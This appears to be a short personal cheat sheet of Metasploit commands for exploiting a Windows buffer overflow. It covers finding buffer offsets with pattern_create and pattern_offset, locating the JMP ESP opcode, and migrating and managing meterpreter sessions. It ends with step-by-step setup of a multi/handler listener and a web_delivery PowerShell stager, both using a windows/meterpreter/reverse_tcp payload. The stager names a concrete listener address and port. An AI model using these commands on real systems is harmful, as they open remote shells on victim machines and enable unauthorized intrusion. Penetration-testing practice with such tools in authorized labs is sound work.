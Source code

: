 ###### Testing buffer size
msf-pattern_create -l 800  
msf-pattern_create -l 2000 -s ABCDEF,def,1234(custom chars set,it can remove some specific bad chars)  
msf-pattern_offset -l 800 -q 42306142

###### To find the opcode equivalent of JMP ESP
```
msf-nasm_shell  
nasm > jmp esp  
00000000  FFE4              jmp esp  
```
###### Post-exploit
```
set AutoRunScript post/windows/manage/migrate #stable the shell
```
###### Metasploit Pose-exploit commands:
```
bg
show sessions
sessions id
quit # 退出会话
execute -H -i -f cmd.exe # 创建新进程cmd.exe，-H不可见，-i交互
```
###### Settingg up local listener
```
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
show options
set LHOST ip
set LPORT port
exploit
```
###### Setting up local powershell reverse tcp listener
```
use exploit/multi/script/web_delivery
set target 2 #important
set payload windows/x64/meterpreter/reverse_tcp
set lhost 192.168.199.128
set lport 4444
run
```
